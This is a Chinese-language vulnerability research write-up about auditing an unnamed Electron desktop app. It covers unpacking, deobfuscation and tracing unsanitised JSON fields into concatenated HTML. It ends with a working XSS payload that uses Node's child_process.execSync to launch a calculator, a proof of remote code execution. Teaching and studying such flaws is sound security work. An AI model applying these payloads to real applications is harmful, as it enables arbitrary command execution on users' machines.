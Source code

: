 

# electron 应用漏洞挖掘 - 先知社区

electron 应用漏洞挖掘

- - -

### 前言

electron 是一个流行的桌面应用开发框架，允许开发者使用 web 技术和 nodejs 结合来迅速开发桌面应用。不过由于使用了 js 等，也引入了 xss 漏洞。 
这次用一个简单的 app 实战挖掘，为了避免广告嫌疑，就不提供 app 名字了。

### 解包

electron 真正的应用内容 位于 `resources`目录。 
如果打开后发现直接就是代码目录，就可以跳过这一步了

[![](assets/1698904335-8d7776aa35ab92f4dfe1ff1f2054c996.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226035136-f56d3014-274f-1.png)  
一般会有两个 asar 包，`electron.asar`和应用一般无关，直接看另一个就行了。

asar 只是一个压缩包，解包和重打包的工具可以直接通过`npm`下载。 
下载命令`sudo npm install -g asar` 解压命令 `asar extract app.asar <输出目录>`

### 审计代码

各个目录的目录结构不一定，但都有一个主文件 如 `main.js`. 在这里处理应用的启动

#### 自定义 url 协议

electron 应用可以注册自己的 url 协议 例如`custom://`, 使得可以通过浏览器直接打开应用。这里对 url 协议的处理不当可能导致 rce 等 例子。

注册 url 的代码例子如下

```bash
const protocol = electron.protocol

// handles links `todo2://<something>`
const PROTOCOL_PREFIX = 'todo2'

function createWindow () {
  mainWindow = new BrowserWindow({width: 1000, height: 800})
  // handle url protocol
  protocol.registerHttpProtocol(PROTOCOL_PREFIX, (req, cb) => {
    const fullUrl = formFullTodoUrl(req.url)
    devToolsLog('full url to open ' + fullUrl)
    mainWindow.loadURL(fullUrl)
  })
}
```

由于未在这款应用发现注册自定义 url，只能跳过这处的代码审计了

#### 代码反混淆

如果代码未使用反混淆，可跳过这步。 
这次审计的 app 使用了`javascript obfuscator`, 并不算太难。 
[![](assets/1698904335-499bab96d78d89abbfc44ec9146bc8d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226040622-05e6fc2a-2752-1.png)

使用`https://lelinhtinh.github.io/de4js/` 就能解出来。不过原有的参数名就回不来了，在阅读代码时利用 IDE 的重命名变量能有效提高可读性  
[![](assets/1698904335-11d7756f17fe0b613fdeb8ee2bb06f0a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226041119-b708ee14-2752-1.png)

#### 寻找输入点

为了寻找漏洞，我们需要先寻找输入点。这个时候参考应用自身功能 找到对应的`html`文件代码是最方便的。 
这个应用允许用户打开和编辑一些文件，找到对应的`editpoc.html`. 发现这个文件高达`2000`多行。 
好在 html 文件没有做 js 混淆，可以通过 IDE 的文件结构功能快速浏览，减少了不少工作量  
[![](assets/1698904335-18ffa2149ead9564ee2720967617970c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226041658-80fbc71e-2753-1.png)

花费了几分钟后，找到了从文件获取数据的函数。然后代码将数据传递给了下面三个函数  
[![](assets/1698904335-7529acfedd3aa0cfff9b14f4aebc14fa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226042333-6c032504-2754-1.png)

第一个都是使用`$(#xxx).val()`函数 没太大问题  
[![](assets/1698904335-53aa1301342e87528798bb312d8c7fd1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226042533-b3ab8fcc-2754-1.png)

第二个被混淆了，并且反混淆没成功  
[![](assets/1698904335-1eab11e21bc4d1176a84e328e3de441e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226043150-94c40a20-2755-1.png)

只好自己写个脚本来反混淆了

```bash
# 从上面文件拷贝出来
data= ["xxx"]
# 上面文件的变量名
name = "_$_3fd4"
filename = "bmheditor.js"

with open(filename, "r") as f:
     content = f.read()

for i in range(len(data)):
    content = content.replace(name+f"[{i}]", f"`{data[i]}`")

with open("output.js", "w") as f:
    f.write(content)
```

最后效果[![](assets/1698904335-0231f017c0d4e1164e9bc7f2ab4645ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226044831-e8db441e-2757-1.png)  
可以发现并没有太明显的拼接 html 痕迹 也是调用`val`

第三个经过一些值传递后的代码  
[![](assets/1698904335-dc302d104be25c43180a5e937feaa412.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226045211-6c30f142-2758-1.png)

可以发现像这样的  
`var $input2 = $("<input type='text' value='"+value+"' name='value' class='form-control' style=' width:20%; display: inline-block;' placeholder='value'>");`  
直接拼接 html, 如果没有过滤将会导致 xss.

而`value`是从`var value = v.value;` 传递来的

在上面的代码也没有过滤

```bash
if (typeof(item.ExpParams) == "undefined") { 
            var ExpParams = [];
        }else{
            var ExpParams = item.ExpParams;
        }
```

查看被传递过来参数`pocJsonInfo`

```bash
var FileName = temp_params2;
            if(from == 'store') {
                var pocJsonInfo = getPocJsonByRubyFileName(FileName, 1);
            } else {
                var pocJsonInfo = getPocJsonByRubyFileName(FileName);
            }
            pocJsonInfo = JSON.parse(pocJsonInfo);
            old_poc_content = pocJsonInfo;

            pocJsonInfo.FileName = FileName;
```

只经过了 json 解析  
而反混淆的`getPocJsonByRubyFileName`函数也没什么过滤  
[![](assets/1698904335-5cf1538f9bf2c2858dc3210258b7bc09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226051233-44c27ace-275b-1.png)

### 利用

上面解析的 json 实际上是这 app 可以编辑的文件里的一部分 [![](assets/1698904335-7212943537b857ce62e23f595c595eef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226051712-eb0aaaf0-275b-1.png)

只需要添加

```bash
"ExpParams": [
          {"name":"test'/><script>alert(1)</script>","type":"input","value":"test"}
      ],
```

这样的即可。

要利用 electron 的 xss 由于 electron 允许使用 nodejs, 所以只需要引入 nodejs 自带的命令执行模块`child_process`即可  
例子  
`require('child_process').execSync('xxxxx')`

这边环境是 Linux 如果要弹个计算器  
实际 exp

```bash
"ExpParams": [
          {"name":"test'/></td></tr><img src=x onerror=\"require('child_process').execSync('gnome-calculator');\">","type":"input","value":"test"}
      ],
```

弹计算器时间  
[![](assets/1698904335-89faf90ef6471efb57480174def87f02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191226052222-a3a2fafe-275c-1.png)
